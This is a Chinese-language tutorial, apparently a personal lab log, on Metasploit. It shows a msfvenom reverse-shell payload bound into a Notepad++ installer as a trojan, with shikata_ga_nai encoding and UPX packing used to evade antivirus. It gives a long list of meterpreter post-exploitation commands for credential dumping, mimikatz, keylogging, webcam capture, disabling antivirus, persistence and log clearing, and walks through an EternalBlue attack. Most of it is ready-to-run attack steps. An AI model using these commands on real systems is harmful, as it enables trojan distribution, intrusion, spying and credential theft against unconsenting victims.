

## Metasploit的免杀和基本使用

1、在kali里打开Metasploit，创建payload，输入`msfvenom -p windows/meterpreter/reverse_tcp lhost=*** lport=*** -f exe -o ***(保存的文件名字及后缀)`
<!--more-->


<br>

2、依次输入以下代码，以开启监听器

<br>

3、通过共享文件（hello.exe），主机接受文件发现windows还是会查杀，于是思考对文件进行免杀

4、在kali里输入`msfvenom -l encoders`，得到编码列表。  
注意：这里不是所有的编码方式都可以在windows系统上使用，这里我们将使用x86/shikata_ga_nai，它是为数不多评级为excellent的编码

<br>

5、我们使用notepad作为木马载体，把木马捆绑在程序上，以便木马的传播

<br>

6、输入以下代码来将木马捆绑到notepad上：
```
msfvenom-p windows/shell_reverse_tcp lhost=192.168.255.130 lport=9000 
-e x86/shikata_ga_nai -x npp.7.9.Installer.exe -i 12 -f exe -o /home/kali/Desktop/npp.Installer.exe
```
这里解释一下其中的部分参数的含义：  
-e 指定编码方式对攻击载荷进行重新编码   
-x 指定木马捆绑在哪个可执行程序模版上   
-i 指定对目标进行编码的次数，多次编码理论上来讲有助于免杀   
-f 指定MSF编码器输出的程序的格式   
-o 指定处理完毕后的文件输出路径   

<br>

7、启动python服务共享文件，发现还是会被查杀。

8、使用upx对文件进行加壳处理，但是还是不行

<br>

9、使用多重编码试图实现免杀，并更改编码次数，甚至更改载体软件，但是最终都以失败告终。


<br>

10、于是只能关闭病毒实时查杀进行接下来的实验，免杀这一部分等后面再进行补充。

11、生成payload，并在本机上接受该exe

<br>

12、输入shell切换到目标主机window cmd shell里面，chcp 65001 防止乱码，字符编码65001 是 utf-8，输入exit即可退出shell。

<br>

13、从meterpreter退出到MSF框架：输入命令`background` 把我们获得的meterpreter会话挂载到后台运行。

<br>

14、输入session -l（字母L）可以查看所有会话，如果要进入先前的会话，输入sessions -id即可

<br>

15、常见命令：

	sysinfo             									#查看目标主机系统信息
	run scraper         									#查看目标主机详细信息
	run hashdump        									#导出密码的哈希
	load kiwi           									#加载mimikatz
	ps                  									#查看目标主机进程信息
	pwd                		 							    #查看目标当前目录(windows)
	getlwd              									#查看目标当前目录(Linux)
	search -f *.jsp -d e:\                					#搜索E盘中所有以.jsp为后缀的文件
	download  e:\test.txt  /root          					#将目标机的e:\test.txt文件下载到/root目录下
	upload    /root/test.txt d:\test      					#将/root/test.txt上传到目标机的 d:\test\ 目录下
	getpid             										#查看当前Meterpreter Shell的进程PID
	migrate 1384        									#将当前Meterpreter Shell的进程迁移到PID为1384的进程上
	idletime           		 								#查看主机运行时间
	getuid              									#查看获取的当前权限
	getsystem           									#提权,获得的当前用户是administrator才能成功
	run  killav        			 							#关闭杀毒软件
	screenshot          									#截图
	webcam_list         									#查看目标主机的摄像头
	webcam_snap         									#拍照
	webcam_stream       									#开视频
	execute 参数 -f 可执行文件   							   #执行可执行程序
	run getgui -u test1 -p Abc123456    					#创建test1用户，密码为Abc123456
	run getgui -e                							#开启远程桌面
	keyscan_start                							#开启键盘记录功能
	keyscan_dump                			 				#显示捕捉到的键盘记录信息
	keyscan_stop                 							#停止键盘记录功能
	uictl  disable  keyboard     							#禁止目标使用键盘
	uictl  enable   keyboard     							#允许目标使用键盘
	uictl  disable  mouse        							#禁止目标使用鼠标
	uictl  enable   mouse        							#允许目标使用鼠标
	load                        							#使用扩展库
	run				             							#使用扩展库
	 
	run exploit/windows/local/persistence lhost=192.168.100.132 lport=8888        #会自动连接192.168.100.132的8888端口，缺点是容易被杀毒软件查杀
	portfwd add -l 9999 -r 192.168.100.158 -p 3389     		                      #将192.168.11.13的3389端口转发到本地的9999端口上，这里的192.168.100.158是获取权限的主机的ip地址
	clearev                                                 #清除日志


16、进入shell输入`systeminfo`查看目标主机信息

<br>

## 利用 ms17_010（永恒之蓝）攻击

17、在kali终端输入msfconsole进入Metasploit

<br>

18、搜索ms17_010漏洞，找到四个模块，前两个是漏洞利用模块，后两个是辅助模块

<br>

19、输入use auxiliary/scanner/smb/smb_ms17_010(或者输入use 3)使用Auxiliary辅助探测模块对漏洞进行探测；  
输入show options查看这个模块需要配置的信息

<br>

20、设定好扫描192.168.225.100到192.168.225.200  
`注：RHOSTS 参数是要探测主机的ip或ip范围，我们探测一个ip范围内的主机是否存在漏洞`  
发现192.168.225.136主机存在永恒之蓝漏洞（我先前打开了一个有该漏洞的虚拟机在同一网段）


<br>

21、使用exploit模块漏洞进行攻击

<br>

22、设置攻击载荷和必要参数，输入exploit进行攻击，攻击成功！


<br>

23、输入getuid查看当前权限，得知当前是最高权限

<br>

24、接下来是后渗透阶段，尝试上传文件到目标主机：upload 本机路径 上传目标路径  
上传成功，到目标主机里查看文件确认。


<br>